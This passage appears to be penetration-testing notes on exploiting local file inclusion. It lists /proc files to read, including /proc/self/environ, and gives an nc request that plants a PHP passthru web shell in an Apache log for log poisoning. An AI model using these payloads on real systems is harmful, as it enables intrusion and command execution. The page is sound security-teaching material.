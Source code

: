 **Proc files**

"Under Linux, /proc includes a directory for each running process, including kernel processes, in directories named /proc/PID, where PID is the process number. Each directory contains information about one process, including: /proc/PID/cmdline, the command that originally started the process."

```
/proc/sched_debug # Can be used to see what pid's are being run, usually enabled on newer systems
/proc/mounts # Provides a list of mounted file-systems
/proc/net/arp 
/proc/net/route
/proc/net/tcp 
/proc/net/tcp6 
/proc/net/udp 
/proc/net/udp6
/proc/net/fib_trie
/proc/version
/proc/self/environ
```

When enumerating `/proc/net/{tcp,udp}{,6}` files, these can be difficult to read.  Using this [script](https://gist.github.com/Reboare/2e0122b993b8557935fd37b27436f8c2), will format the output correctly.

[https://en.wikipedia.org/wiki/Procfs](https://www.gitbook.com/book/reboare/security/edit#)  
[https://blog.netspi.com/directory-traversal-file-inclusion-proc-file-system/](https://www.gitbook.com/book/reboare/security/edit#)

## Bruteforcing SSH known\_hosts

[https://blog.rootshell.be/2010/11/03/bruteforcing-ssh-known\_hosts-files/](https://blog.rootshell.be/2010/11/03/bruteforcing-ssh-known_hosts-files/)

## LFI to shell

Under the right circumstances you might be able to get a shell from a LFI

### Log poisoning

There are some requirements. We need to be able to read log files. In this example we are going to poison the apache log file. 

So once you have found a LFI vuln you have to inject php-code into the log file and then execute it.

**Insert php-code into the log file**

This can be done with nc or telnet.

```
nc 192.168.1.102 80
GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
Host: 192.168.1.102
Connection: close
```
